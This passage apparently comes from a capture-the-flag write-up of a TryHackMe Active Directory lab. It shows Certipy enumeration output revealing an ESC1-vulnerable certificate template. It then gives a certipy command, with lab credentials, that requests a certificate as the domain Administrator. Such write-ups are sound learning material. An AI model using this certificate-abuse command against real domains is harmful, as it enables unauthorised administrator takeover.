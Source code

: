 ```python
    Renewal Period                      : 6 weeks
    Minimum RSA Key Length              : 2048
    Template Created                    : 2023-05-12T08:55:40+00:00
    Template Last Modified              : 2023-05-12T08:55:40+00:00
    Permissions
      Enrollment Permissions
        Enrollment Rights               : THM.LOCAL\Domain Admins
                                          THM.LOCAL\Domain Computers
                                          THM.LOCAL\Enterprise Admins
                                          THM.LOCAL\Authenticated Users
      Object Control Permissions
        Owner                           : THM.LOCAL\Administrator
        Full Control Principals         : THM.LOCAL\Domain Admins
                                          THM.LOCAL\Enterprise Admins
        Write Owner Principals          : THM.LOCAL\Domain Admins
                                          THM.LOCAL\Enterprise Admins
        Write Dacl Principals           : THM.LOCAL\Domain Admins
                                          THM.LOCAL\Enterprise Admins
        Write Property Enroll           : THM.LOCAL\Domain Admins
                                          THM.LOCAL\Domain Computers
                                          THM.LOCAL\Enterprise Admins
    [+] User Enrollable Principals      : THM.LOCAL\Domain Computers
                                          THM.LOCAL\Authenticated Users
    [!] Vulnerabilities
      ESC1                              : Enrollee supplies subject and template allows client authentication.
```

We find there's a `ESC1` vulnerability on the `ServerAuth` certificate template, we can refer to this article to check how to exploit certificate vulnerabiltiies:

ARTICLE: https://www.blackhillsinfosec.com/abusing-active-directory-certificate-services-part-one/

![](Pasted%20image%2020250624141454.png)

![](Pasted%20image%2020250624141526.png)

![](Pasted%20image%2020250624141549.png)

Basically, what we'd need to do is to request a certificate on behalf of the Administrator user, then, using that certificate, we'll be able to get a session as the admin user.

Based on the article, we need to do:

```python
certipy req -username 'SUSANNA_MCKNIGHT@thm.local' -password 'CHANGEME2023!' -ca thm-LABYRINTH-CA -target labyrinth.thm.local -template ServerAuth -upn Administrator@thm.local
```

Before doing that, we need to use `ntpdate` to match our time with the target in case it fails:

```
sudo ntpdate -u IP
```
